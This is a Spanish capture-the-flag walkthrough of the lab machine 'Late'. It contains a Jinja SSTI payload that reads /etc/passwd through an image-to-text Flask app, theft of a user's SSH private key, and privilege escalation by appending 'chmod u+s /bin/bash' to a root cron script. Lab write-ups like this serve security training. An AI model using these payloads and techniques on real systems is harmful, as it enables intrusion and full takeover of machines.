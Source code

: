 

# PortScan
________
```
# Nmap 7.93 scan initiated Mon Nov 27 17:44:00 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
|_  256 28394698171e461a1ea1ab3b9a577048 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 27 17:44:10 2023 -- 1 IP address (1 host up) scanned in 9.80 seconds
```

# WebSite
____

![[Pasted image 20231127182726.png]]

Enumerando posibles directorios & viendo el código fuente no encontré nada interesante, así que decidí enumerar posibles **sub-dominios** para éste dominio.

```bash
gobuster vhost -u http://late.htb/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -k
===============================================================
de
===============================================================
Found: images.late.htb (Status: 200) [Size: 2187]
```

descubriendo así un sub-dominio "**images.late.htb**", hacemos virtual hosting metiendo éste en el "**/etc/hosts**", una vez tengamos esto podemos ingresar al sub-dominio, encontrándonos con ésto.

![[Pasted image 20231127183209.png]]

Viendo qué podemos convertir imágenes a texto, esto con el framework "**Flask**" qué está escrito en python.

Creamos una imagen con un texto básico ésto con la ayuda de "**libreoffice**" y "**scrot**" para tomar la captura.

1. Abrimos el "**libreoffice**" y ponemos un texto para tomarle captura.
![[Pasted image 20231127183421.png]]

2. Corremos el "**scrot**" con un tiempo de espera para que nos de chance a volver al **"libreoffice"** y tomar la captura.
```bash
sleep 3; scrot -s capture.png
```

y tendríamos la captura del texto en "**libreoffice**" en capture.png.
![[Pasted image 20231127183606.png]]

Procedemos a subir ésta imagen a ver sí esta fuente logra interpretarla correctamente.

![[Pasted image 20231127183908.png]]

Vemos lo está interpretando, como está corriendo un **Flask**, se me ocurre probar un **SSTI** con una operación básica de multiplicación a ver si logra interpretarlo...

1. Ponemos una operación básica en el "**libreoffice**"
![[Pasted image 20231127184101.png]]

2. Tomamos la captura con "scrot"
```bash
sleep 3; scrot -s capture.png
```


Una vez con la captura, la subimos para ver los resultados...

![[Pasted image 20231127184356.png]]
Estamos logrando llevar a cabo el **SSTI**, así que se me ocurre aprovecharnos de esto para llevar a cabo una lectura de archivos de la máquina y ver el "**/etc/passwd**".
![[Pasted image 20231127193325.png]]
```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Así que con "**scrot**" tomo una captura de ésto y la subo, viendo como resultado el contenido del "**/etc/passwd**".

como vemos en el "**result.txt"**
![[Pasted image 20231127194153.png]]

Viendo un usuario válido del sistema, por lo qué se me ocurre ver si está la clave privada **SSH** expuesta para éste usuario, en **"/home/svc_acc/.ssh/id_rsa"**
![[Pasted image 20231127195153.png]]

vemos qué está expuesta, así que procedemos a conectarnos con **SSH** desde nuestra máquina, pero primero debemos quitarles las etiquetas "**< p >**"
para posterior a ello conectarnos tal que así:
```bash
mv results.txt id_rsa
ssh -i id_rsa svc_acc@10.10.11.156

```

![[Pasted image 20231127195853.png]]


# Escalada de Privilegios
___

con el binario de [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1), no los enviamos a la máquina víctima desde un servidor python y le damos permisos de ejecución en la máquina víctima.
![[Pasted image 20231127202232.png]]

Vemos que **root**, está asignándole un atributo -**"a"** al script "**ssh-alert.sh**".

![[Pasted image 20231127202450.png]]

Vemos en los permisos que podemos editarlo, se me ocurre de primera darle permisos **SUID** a la bash ya que ROOT lo ejecuta.. pero nos deniega el permisos, esto por el atributo **"-a"**, que es "**append-only**", es decir, sólo podemos modificar el archivo metiéndole contenido desde append, es decir **>>**, sabiendo ésto.

1. en "**tmp**", creamos un archivo con contenido dentro que de permisos SUID a la Bash.
```
nano privesc.txt
```
2. Contenido del "**privesc.txt**"
```bash
chmod u+s /bin/bash
```

3. metemos el contenido de "privesc.txt" a "ssh-alert.sh":
```bash
cat privesc.txt >> /usr/local/sbin/ssh-alert.sh
```

4. Esperamos a qué se vuelva ejecutar la tarea CRON y ya la bash tendría SUID.
![[Pasted image 20231127203036.png]]

